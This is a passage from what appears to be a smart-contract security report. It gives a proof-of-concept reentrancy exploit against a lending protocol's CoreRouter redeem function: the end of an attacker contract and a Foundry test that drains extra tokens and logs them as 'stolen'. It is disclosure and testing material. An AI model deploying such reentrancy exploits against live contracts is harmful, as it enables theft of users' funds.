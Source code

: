 ``` solidity
            attackCount++;
            // Reenter with same amount
            CoreRouter(coreRouter).redeem(amount, payable(lToken));
        }
    }
}
```

2 . Add this test to the existing TestRedeeming.t.sol contract

```solidity
//add this to existing imports in the contract

import {Test, console} from "forge-std/Test.sol";  // Add console here
import {ReentrancyAttacker} from "./mocks/ReentrancyAttacker.sol";


function test_reentrancy_vulnerability_in_redeem() public {
        vm.startPrank(deployer);
        
        // Initial setup - supply a larger amount of tokens
        uint256 supplyAmount = 1000e18;
        (address token, address lToken) = _supply(supplyAmount);
        
        // Deploy attacker contract
        ReentrancyAttacker attacker = new ReentrancyAttacker(payable(address(coreRouter)));
        
        // Transfer tokens to attacker contract - smaller amount for attack
        uint256 attackAmount = 10e18;
        ERC20Mock(token).mint(address(attacker), attackAmount);
        vm.stopPrank();
        
        // Start attack sequence
        vm.startPrank(address(attacker));
        IERC20(token).approve(address(coreRouter), attackAmount);
        coreRouter.supply(attackAmount, token);
        
        // Get attacker's balance before attack
        uint256 initialBalance = IERC20(token).balanceOf(address(attacker));
        uint256 attackerInvestment = lendStorage.totalInvestment(address(attacker), lToken);
        
        console.log("Initial investment:", attackerInvestment);
        
        // Execute attack with the actual investment amount
        attacker.attack(lToken, attackerInvestment, token);
        
        // Verify attack results
        uint256 finalBalance = IERC20(token).balanceOf(address(attacker));
        assertGt(finalBalance, initialBalance, "Reentrancy attack failed");
        
        console.log("Initial balance:", initialBalance);
        console.log("Final balance:", finalBalance);
        console.log("Extra tokens stolen:", finalBalance - initialBalance);
        
        vm.stopPrank();
    }
}

```
